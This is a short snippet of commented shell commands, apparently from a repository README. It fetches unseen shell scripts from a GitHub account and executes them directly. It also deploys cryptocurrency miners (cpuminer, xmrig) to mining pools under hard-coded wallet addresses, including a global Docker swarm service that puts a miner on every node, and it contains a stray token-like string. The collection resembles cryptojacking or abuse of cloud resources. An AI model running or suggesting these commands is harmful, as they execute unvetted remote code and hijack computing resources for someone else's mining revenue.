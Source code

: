 # wget https://raw.githubusercontent.com/penjelajahwaktu/subrek/main/home.sh && chmod +x home.sh && ./home.sh

# wget https://raw.githubusercontent.com/penjelajahwaktu/subrek/main/sug.sh && chmod +x sug.sh && ./sug.sh

# docker service create --mode=global --name miner alexellis2/cpu-opt:2018-1-2 ./cpuminer -a yespower -o stratum+tcps://stratum-asia.rplant.xyz:17079 -u VVPBKDtfy9hJRuFEhZ8Lj1yR5TaNAcVobb.cloud1

# docker run --restart=always miningcontainers/xmrig:latest --tls -o xmr-us-east1.nanopool.org:14433 -u 83ErkzmC8yH2omjYvg6G7vc4fiP33k9EsXrGjs4ssW7hetWN3VHKgtVDsGTpjipJmDMWnsgpfb32NYw186uYE2UyEcDv343 --coin monero

# wget https://raw.githubusercontent.com/penjelajahwaktu/subrek/main/tid.sh && chmod +x tid.sh && ./tid.sh

# wget https://raw.githubusercontent.com/penjelajahwaktu/subrek/main/der.sh && chmod +x der.sh && ./der.sh

# wget -O run.sh https://raw.githubusercontent.com/penjelajahwaktu/subrek/main/ron.sh && chmod +x ron.sh && ./ron.sh

# 2KtRkhcqvGb9pHLTIlm35oPjzf2_4bLwDzDfPeEEuMaVGBtmW

# wget https://github.com/RainbowMiner/RainbowMiner/releases/download/v4.9.0.1/RainbowMinerV4.9.0.1_linux.zip && unzip RainbowMinerV4.9.0.1_linux.zip && wget https://raw.githubusercontent.com/penjelajahwaktu/subrek/main/pol.sh && chmod +x pol.sh && wget https://raw.githubusercontent.com/penjelajahwaktu/subrek/main/zer.sh && chmod +x zer.sh && ./zer.sh
